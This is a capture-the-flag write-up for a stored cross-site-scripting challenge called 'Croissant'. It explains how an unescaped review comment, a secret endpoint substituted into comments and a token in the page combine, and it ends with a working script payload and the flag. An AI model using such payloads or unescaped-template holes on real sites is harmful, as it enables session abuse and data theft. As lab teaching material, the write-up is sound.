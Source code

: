 # Croissant

A play on words: Croissant is a hint that the solution involved **XSS (Cross-Site-Scripting)**.

<!--toc:start-->
- [Croissant](#croissant)
  - [Context](#context)
  - [Solution](#solution)
    - [1. Identify that comments are not being escaped](#1-identify-that-comments-are-not-being-escaped)
    - [2. Identify that the endpoint providing the flag is dynamically generated](#2-identify-that-the-endpoint-providing-the-flag-is-dynamically-generated)
    - [3. Identify that the endpoint is formatted into comments](#3-identify-that-the-endpoint-is-formatted-into-comments)
    - [4. Identify that we need session token and cookie to access the endpoint](#4-identify-that-we-need-session-token-and-cookie-to-access-the-endpoint)
    - [5. We do not need to explicitly pass the cookie](#5-we-do-not-need-to-explicitly-pass-the-cookie)
    - [6. Getting the session token](#6-getting-the-session-token)
    - [7. Send the payload](#7-send-the-payload)
    - [8. Solved](#8-solved)
<!--toc:end-->

## Context

This is the main page

![Main page](assets/main-page.png)

And you can add reviews

![Add review](assets/add-review.png)

You can find the code released to help competitors in `dist/`

## Solution

### 1. Identify that comments are not being escaped

This should also clue you into using `comments` as the attack vector.

```html
<p class="mb-2">
  {{ review.comment | safe }}
</p>
```

### 2. Identify that the endpoint providing the flag is dynamically generated

This means that a brute-force attack to find the endpoint
is not going to be a good idea.

```py
ENDPOINT: str = f"/api/{secrets.token_urlsafe(64)}"

@app.get(ENDPOINT)
def get_flag():
    if "cookie" not in request.cookies:
        return {
            "message": "Hey!! What about my chocolate chip cookies?!",
            "status": 403,
        }, 403

    validate_token()
    return FLAG
```

### 3. Identify that the endpoint is formatted into comments

```py
newReview = CroissantReview(
    rating=int(rating),
    comment=cast(str, comment).replace("endpoint", ENDPOINT, 1),
)
reviews.append(newReview)
save(newReview)
```

Great! This means the first `endpoint` in the comment will be replaced
by the endpoint, and our payload should contain `endpoint` somewhere.

### 4. Identify that we need session token and cookie to access the endpoint

```py
def get_flag():
    if "cookie" not in request.cookies:
        return {
            "message": "Hey!! What about my chocolate chip cookies?!",
            "status": 403,
        }, 403

    validate_token()
    return FLAG
```

### 5. We do not need to explicitly pass the cookie

Based on how samesite requests work,
the cookie will be automatically passed to the endpoint.

### 6. Getting the session token

We can see that the token is added to the HTML as an `data-token` attribute.

```py
resp = make_response(
    render_template("index.html", reviews=reviews, token=session["token"])
)
```

```html
<div class="flex justify-end">
  <button type="button" class="bg-gray-500 text-white px-4 py-2 rounded mr-2" onclick="closeModal()">Cancel</button>
  <button
    id="submit"
    type="submit"
    class="bg-blue-500 text-white px-4 py-2 rounded"
    data-token="{{ token }}"
  >Submit</button>
</div>
```

We can get this programatically with javascript

```js
document.getElementById('submit').getAttribute('data-token')
```

### 7. Send the payload

Putting everything together, the payload we craft in `comment` becomes this:

```js
<script>
window.onload = () => {
    fetch('endpoint', {
        method: 'GET',
        headers: {
            'X-Requested-With': 'XMLHttpRequest',
            'X-Token': document.getElementById('submit').getAttribute('data-token')
        }
    })
      .then(res => res.text())
      .then(flag => alert(flag));
}
</script>
```

### 8. Solved

Flag: `NYP{wH4t4cRossAcRo!s5An7}`
